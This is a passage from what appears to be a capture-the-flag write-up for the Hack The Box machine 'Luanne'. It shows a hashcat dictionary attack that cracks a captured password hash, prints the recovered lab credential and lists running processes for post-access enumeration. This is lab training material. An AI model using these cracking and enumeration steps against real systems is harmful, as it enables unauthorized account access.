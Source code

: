 This shows what mode we should use to crack the password:

```sh
$ hashcat -a 0 -m 500 -o cracked.txt hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --username

$ cat cracked.txt
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

Hashcat appends the cracked password to the end of the line. The cracked password and username give access to the service running on port `80`. But there is nothing much to be gained here:

![Logged into service on port 80](./assets/2021-03-28-hack-the-box-luanne/web-80-logged-in.png)

I also tried to get access to the service running on port `9001`, but the credentials didn't seem to work for this service. Pretty early on, I noticed that Nginx was proxying to something on localhost. Let's have a look and see what is running on this box:

```sh
$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
root           0  0.0  0.2      0 11168 ?     OKl   8:19PM 0:03.10 [system]
root           1  0.0  0.0  19852  1524 ?     Is    8:19PM 0:00.01 init
root         163  0.0  0.0  32528  2292 ?     Ss    8:19PM 0:00.05 /usr/sbin/syslogd -s
r.michaels   185  0.0  0.0  34992  1972 ?     Is    8:19PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
root         298  0.0  0.0  19704  1336 ?     Is    8:19PM 0:00.00 /usr/sbin/powerd
root         299  0.0  0.0  33368  1832 ?     Is    8:19PM 0:00.00 nginx: master process /usr/pkg/sbin/nginx
root         318  0.0  0.1 117944  7212 ?     Il    8:19PM 0:11.27 /usr/pkg/bin/vmtoolsd
_httpd       336  0.0  0.2 118064 13548 ?     Ss    8:19PM 0:05.40 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8
root         348  0.0  0.0  71348  2928 ?     Is    8:19PM 0:00.01 /usr/sbin/sshd
nginx        373  0.0  0.1  33920  3248 ?     I     8:19PM 0:02.91 nginx: worker process
_httpd       376  0.0  0.0  34952  1996 ?     Is    8:19PM 0:00.01 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
root         402  0.0  0.0  20220  1668 ?     Ss    8:19PM 0:00.04 /usr/sbin/cron
_httpd       411  0.0  0.0  20016  1652 ?     I     8:19PM 0:00.22 /bin/sh /usr/local/scripts/processes.sh
_httpd       422  0.0  0.0  19988  1652 ?     I     8:19PM 0:00.10 /bin/sh /usr/local/scripts/memory.sh
_httpd       436  0.0  0.0  19992  1652 ?     I     8:19PM 0:00.09 /bin/sh /usr/local/scripts/uptime.sh
_httpd      4064  0.0  0.0  17640  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4210  0.0  0.0  17636  1384 ?     I     1:07AM 0:00.00 sleep 30
_httpd      4309  0.0  0.0  22708  1520 ?     O     1:08AM 0:00.00 ps -auxww
```